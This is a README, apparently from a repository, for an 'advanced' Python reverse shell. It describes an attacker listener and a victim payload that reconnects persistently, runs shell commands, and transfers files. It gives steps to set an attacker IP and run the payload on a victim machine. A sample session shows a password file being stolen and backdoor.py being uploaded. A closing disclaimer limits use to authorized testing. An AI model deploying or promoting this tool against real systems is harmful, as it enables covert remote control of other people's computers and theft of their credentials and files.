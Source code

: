 
# 🚀 Advanced Python Reverse Shell

This **advanced version** of the Python reverse shell is a powerful upgrade over the basic version, designed with reliability, extended capabilities, and operational stealth in mind. It maintains the simplicity of Python while introducing features critical for realistic penetration testing and red teaming exercises.

Unlike the basic version, which provides core command execution and a linear connection, this advanced version ensures persistent communication, intelligent command handling, and secure file transfers — making it a practical tool for ethical hackers.

---

## 🆚 Basic vs Advanced: What's New?

| Feature                      | Basic Version                    | Advanced Version                                                      |
| ---------------------------- | ------------------------------- | ------------------------------------------------------------------- |
| Persistent Reconnect          | ❌ Single connection attempt     | ✅ Reconnects every 5 seconds if listener is offline                |
| File Download                | ❌ Not supported                 | ✅ Supported with pattern-based listing and exact match download    |
| File Upload                  | ❌ Not supported                 | ✅ Send files from hacker to victim with integrity checks           |
| Directory Navigation (`cd`)   | ✅ Supported                    | ✅ Improved, supports path echoing and default display              |
| Command Output Handling       | ⚠️ Plaintext with limited fallback | ✅ Cross-platform decoding with `cp437` (Windows) and `utf-8` fallback |
| Empty Command Output Handling | ❌ No feedback                  | ✅ "No output" feedback when silent commands are run                |
| Graceful Exit (`stop`)        | ✅ Supported                   | ✅ Improved clean disconnection and shutdown                        |
| Socket Reuse (SO_REUSEADDR)  | ❌ Not handled                 | ✅ Enables quick listener restarts without port binding errors      |

---

## 📁 Directory Contents

```

Advanced-Version/
├── README.md                # You are here
├── advanced\_hacker.py       # Attacker script (listener and controller)
└── advanced\_victim.py       # Victim payload (persistent reverse shell)

````

---

## 💡 Core Features

* **🔁 Reconnection Loop**: Victim automatically retries connecting to hacker every 5 seconds if disconnected.
* **💻 Command Execution**: Cross-platform shell support (PowerShell, cmd, bash). Uses `subprocess.run` with output decoding.
* **📂 `cd` Support**: Allows directory changes with confirmation, or just shows current directory if used alone.
* **📥 File Download**:
  * Request exact file or pattern (e.g., `report` lists `report.txt`, `report.pdf`, etc.).
  * Select from matches for precise download.
* **📤 File Upload**:
  * Send files from hacker to victim securely.
  * Hacker verifies file exists and is non-empty before sending.
* **🛑 Graceful Termination**: The `stop` command cleanly shuts down both scripts.
* **📡 Port Reuse**: Hacker script uses `SO_REUSEADDR` to allow instant port reuse after closure.
* **⚙️ Robust File Protocol**:
  * All file transfers are in binary.
  * Transfers begin with an 8-byte size header.
  * Size `0` signals "not found", "empty", or "canceled" conditions.

---

## 🚀 Usage Guide

### 🔧 1. Configure IP and Port

Edit both scripts and set:

```python
hacker_ip = "YOUR_ATTACKER_IP"
hacker_port = 10000
````

Ensure both use the same values. On attacker machine, use `ip a` (Linux) or `ipconfig` (Windows) to find your IP.

---

### 🧠 2. Start Listener (Hacker)

```bash
python3 advanced_hacker.py
```

Wait for incoming connections.

---

### 👾 3. Deploy Victim Script

On the target (victim) machine:

```bash
python3 advanced_victim.py
```

It will continuously retry until the hacker connects.

---

## 💬 Commands You Can Use

| Command                     | Description                                  |
| --------------------------- | -------------------------------------------- |
| `cd`                        | Show current directory                       |
| `cd <path>`                 | Change directory                             |
| `download <file or prefix>` | Download file (or match pattern) from victim |
| `upload <filename>`         | Upload file from hacker to victim            |
| `stop`                      | Cleanly terminate the session                |
| *any other command*         | Executed as shell command on victim          |

---

## 📌 Sample Session

**Attacker:**

```bash
python3 advanced_hacker.py
Listening for incoming connections...
[+] Connected with ('192.168.0.105', 50832)
> whoami
victim-pc\user

> cd Desktop
Changed directory to Desktop

> download pass
All files with (pass) name:
  [+] pass.txt
  [+] pass_list.docx
Type exact file name:
> download pass_list.docx
Yes, the file exists!
Receiving file (38290 bytes)...
File downloaded successfully!

> upload backdoor.py
File uploaded successfully!

> stop
[*] Session terminated. Exiting.
```

**Victim Output (optional, not shown to attacker):**

```
[*] Connected to hacker.
whoami is executed successfully!
cd Desktop is executed successfully!
download pass is executed successfully!
download pass_list.docx is executed successfully!
upload backdoor.py is executed successfully!
stop is executed successfully!
```

---

## 🧪 Advanced Internals

### 🔄 Persistent Reconnect

Victim attempts reconnection every 5 seconds. This is ideal when listener crashes or is temporarily offline.

### 📜 Command Dispatch

Victim classifies and handles:

* `cd`
* `download`
* `upload`
* `stop`
* Any other command → routed to shell via `subprocess.run()`

### 📁 File Transfer Protocol

* 8-byte length header sent before file data.
* Chunked send/receive.
* Zero-length used for signaling "not found" or "empty".

### 🧬 Encoding Fallback

* Windows: `cp437`
* Linux/macOS: `utf-8`
* Always fallback to `errors="replace"` to avoid crashes from malformed characters.

---

## ⚠️ Legal Disclaimer

This tool is intended **solely for educational use** and authorized ethical hacking engagements. Unauthorized access or usage of this tool on systems you do not own or have explicit permission to test is illegal. The author assumes no responsibility for any misuse or consequences thereof.

```

---

